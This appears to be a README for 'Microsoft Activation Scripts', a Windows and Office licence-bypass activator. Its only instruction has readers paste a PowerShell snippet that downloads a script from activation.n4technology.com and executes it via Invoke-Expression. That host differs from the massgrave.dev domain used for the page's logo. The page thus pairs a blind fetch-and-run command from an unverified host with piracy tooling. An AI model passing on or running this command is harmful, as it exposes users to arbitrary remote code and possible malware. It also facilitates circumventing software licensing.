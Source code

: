 <p align="center"><img src="https://massgrave.dev/images/logo_small.png" alt="MAS Logo"></p>

<h1 align="center">Microsoft  Activation  Scripts (MAS)</h1>

<p align="center">A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.</p>
<hr>

## Download / How to use it?

### Method 1 - PowerShell (Recommended)

-   Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter
    ```
    $scriptUrl = "https://activation.n4technology.com/activation.ps1"
    $response = Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing
    $scriptContent = [System.Text.Encoding]::UTF8.GetString($response.Content)
    Invoke-Expression $scriptContent


    ```
-   You will see the activation options. Follow the on-screen instructions.
-   That's all.



---

<p align="center">Made with Love ❤️</p>

